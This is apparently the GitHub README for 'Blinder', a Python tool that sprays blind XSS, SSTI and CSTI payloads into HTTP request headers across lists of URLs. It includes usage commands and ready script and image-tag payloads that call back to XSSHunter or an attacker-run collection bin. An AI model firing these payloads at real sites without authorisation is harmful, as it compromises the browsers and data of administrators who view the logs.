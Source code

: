 # Blinder
- A Tool Written In Python3 To Send Blind Payloads On The Request Headers Maybe Stored On The Logs

## Description
- Blinder Is An Automation Tool That's Used To Send Blind Payloads For Many Bugs Like XSS,SSTI,CSTI,..etc. It Allows You To Send Your Blind Payloads On The Requests Headers That May Be Stored On The Server Logs Or By Insecure Application. In Case The User Is Trying To View The Logs With Inseucre Way On The Site Or Even With Insecure Application Your Payload Will Be Triggered And XSSHunter/Your-Bin Should Notify You About It.

### Installation
```
git clone https://github.com/DEMON1A/Blinder
cd Blinder
python3 Blinder.py [ARGS]
```

### What's New?
- Threading To Improve The Script Speed.
- Using Your Own External Bin Instead Of Just Using XSSHunter
- Using Your Own Payloads That Could Be Used To Inject Other Payloads For Other Issues
- Been Able To Allow/Disallow Redirects With Requests
- You Can Use Multi Payloads With The Requests And Select The Split Char
- Been Able To Select Your Own Header On The Requests That Will Be Sent.
- Selecting Your Own Replace String That Will Be Replaced To Your XSSHunter/Bin
- Cleaner Code!

## How To Use:
#### Basic:
- You Can Run Blinder In a Basic Usage By Just Using This Command. Where `-u` Options Is Your XSSHunter Username And `-f` Is The File That Contains The URLs With NewLine Seprator
```
python3 Blinder.py -u hacker -f URLs
```

#### Redirections
- To Disallow/Allow Redirections You Can Use `-r` Options With The Rule You Want. Disallowing Redirections Will Make The Tool Faster But It Might Miss Some Results. By Default Redirections Is Allowed On Blinder

- The Redirection Rules Are `allow` and `deny` In LowerCase. The Program Will Trigger An Error In Case You Used Something Else.
```
python3 Blinder.py -u hacker -f URLs -r deny
```
#### Payloads And Multi Payloads.
- In Blinder The Default Payload Is `"><script src=XSSHunter></script>`That's The Same as The Default One On XSShunter Website. In Case You Want To Use Another Payloads For XSS Or Something Else Like SSTI , CSTI You Can Add It Using `-p` Option That Can Be Used With Some Command Like The First Example

- In Case You Want To Use Multi Payloads You Can Add Your Payloads Then Seprate Them Using `,` For Default Usage, See The Second Example For That, In Case You Want To Seprate Them By Something Else You Can Use `-s` Option. And You Will Find It In The Third Example. 

- You Can Select What Text You Want To Get Replaced To Your XSSHunter/Bin Using `--replace` Option. You Will Get a Sample In The Forth Example. Also, In Case You Didn't Add The Replace String The Program Will Use `XXX` For Default.
```
python3 Blinder.py -u hacker -f URLs -p '"><img src="XXX">'
```
```
python3 Blinder.py -u hacker -f URLs -p '<img src="XXX">,<iframe src="XXX">'
```
```
python3 Blinder.py -u hacker -f URLs -p '<img src="XXX">_<iframe src="XXX">' -s '_'
```

```
python3 Blinder.py -u hacker -f URLs -p '<img src="RRR">_<iframe src="RRR">' -s '_' --replace 'RRR'
```

#### Headers
- In This New Update You Can Select What Headers You Want To Use To Send The Payloads On. The Default Is The `User-Agent` Header But You Can Add Your Own Header Using `--header` Option. See The Example Below

```
python3 Blinder.py -u hacker -f URLs --header test
```

#### External Bin
- In Case You Don't Want To Use XSSHunter And You Have Your Own Requeest Bin That Can Collect The Users Data You Can Use `-b` Option With Your External Bin Including The Protocol `http:` `https:`

```
python3 Blinder.py -b https://site.com/ -f URLs
```

### Something Isn't Working Or You Want To Improve Something?
- Then Please Open an Issue With It Or You Can Fork The Project Then Create a Pull Request.
- You Can Also DM Me On Twitter: [@DemoniaSlash](https://twitter.com/DemoniaSlash) 
